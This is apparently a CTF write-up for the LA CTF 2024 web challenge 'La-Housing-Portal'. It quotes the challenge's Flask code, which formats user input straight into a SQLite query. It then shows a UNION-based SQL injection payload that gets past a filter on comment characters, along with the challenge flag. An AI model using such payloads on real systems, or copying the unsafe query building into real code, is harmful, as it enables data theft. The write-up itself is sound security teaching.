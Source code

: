 ```yaml
---
title: La-Housing-Portal
date: 2024-02-18T20:05:09+02:00
description: Writeup for La-Housing-Portal [LA CTF 2024]
type: writeup
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.

Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.

Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.

## Intuition

The website is a simple one, we can enter our username and then choose among different values in a dropdown menu and the site will return
a table with a list of match. I try to edit the parameter in Burp Suite in order to perfom an SLQ injection it seems that the website is vulnerable to it.
Furthermore, the challenge description gives us a hint about the `--` character which is the comment character in SQL.

![welcome](/images/la_ctf_2024/housing.png)

![table](/images/la_ctf_2024/housing_table.png)

## Solution

If I try to make a basic SQL injection by using the `--` character, I can see that the website return a special page:

![hacker](/images/la_ctf_2024/hacker.png)

Unfortunately the `/*` character is also blocked so the only solution is to finish the query to make it a valid one. Let's open the code:

```py
@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")

    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

The original query is the following: `select * from users where {} LIMIT 25;` and in order to escape it I can transform it in the following query:

![payload](/images/la_ctf_2024/sql_housing.png)

The final payload is the following is `'+UNION+SELECT+1,*,3,4,5,6+FROM+flag+WHERE+''='`

![flag](/images/la_ctf_2024/housing_flag.png)


### Flag

`lactf{us3_s4n1t1z3d_1npu7!!!}`


